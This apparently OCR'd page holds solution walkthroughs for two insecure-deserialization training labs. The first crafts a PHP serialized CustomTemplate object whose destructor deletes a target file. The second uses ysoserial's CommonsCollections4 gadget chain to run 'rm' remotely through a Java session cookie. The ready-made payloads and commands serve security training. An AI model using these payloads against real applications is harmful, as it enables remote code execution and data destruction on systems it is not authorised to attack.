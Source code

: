 ```bash
        return file_get_contents($this->template_file_path);
    }

    public function saveTemplate($template) {
        if (!isTemplateLocked()) {
            if (file_put_contents($this->lock_file_path, "") === false) {
                throw new Exception("Could not write to " . $this->lock_file_path);
            }
            if (file_put_contents($this->template_file_path, $template) === false) {
                throw new Exception("Could not write to " . $this->template_file_path);
            }
        }
    }

    function __destruct() {
        // Carlos thought this would be a good idea
        if (file_exists($this->lock_file_path)) {
            unlink($this->lock_file_path);
        }
    }
}

?>
```
- In the source code, notice the CustomTemplate class contains the __destruct() magic method. This will invoke the unlink() method on the lock_file_path attribute, which will delete the file on this path. 
- In Burp Decoder, use the correct syntax for serialized PHP data to create a CustomTemplate object with the lock_file_path attribute set to /home/carlos/morale.txt. Make sure to use the correct data type labels and length indicators. The final object should look like this: 
```bash
O:14:"CustomTemplate":1:{s:14:"lock_file_path";s:23:"/home/carlos/morale.txt";}
```
- Base64 and URL-encode this object and save it to your clipboard.
- Send a request containing the session cookie to Burp Repeater.
- In Burp Repeater, replace the session cookie with the modified one in your clipboard.
- Send the request. The __destruct() magic method is automatically invoked and will delete Carlos's file. 

### Lab: Exploiting Java deserialization with Apache Commons
This lab uses a serialization-based session mechanism and loads the Apache Commons Collections library. Although you don't have source code access, you can still exploit this lab using pre-built gadget chains.

To solve the lab, use a third-party tool to generate a malicious serialized object containing a remote code execution payload. Then, pass this object into the website to delete the morale.txt file from Carlos's home directory. 

Solution:
- Log in to your own account and observe that the session cookie contains a serialized Java object. Send a request containing your session cookie to Burp Repeater.
- Git clone the "ysoserial" tool and execute the following command. This generates a Base64-encoded serialized object containing your payload: 
```bash
git clone https://github.com/frohoff/ysoserial.git
cd ysoserial
docker build -t ysoserial:latest .
```
```bash
docker run ysoserial:latest CommonsCollections4 'rm /home/carlos/morale.txt' | base64
```
- In Burp Repeater, replace your session cookie with the malicious one you just created. Select the entire cookie and then **URL-encode it**.
- Send the request to solve the lab.